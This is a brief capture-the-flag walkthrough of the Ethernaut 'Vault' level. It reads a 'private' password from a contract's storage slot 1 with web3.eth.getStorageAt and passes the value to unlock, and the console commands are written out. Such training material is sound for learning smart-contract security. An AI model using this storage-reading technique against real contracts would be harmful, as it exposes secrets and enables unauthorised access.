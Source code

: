 #Vault

Since we know the contract structure and we know how the EVM stores variables, we know that
the bool is stored in slot 0 and the bytes32 is stored in slot 1. We can access this variable through:

> await web3.eth.getStorageAt(contract.address, 1)

We take this bytes32 password and pass it through to the unlock function

> await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')

We can check that it worked

> await contract.locked()
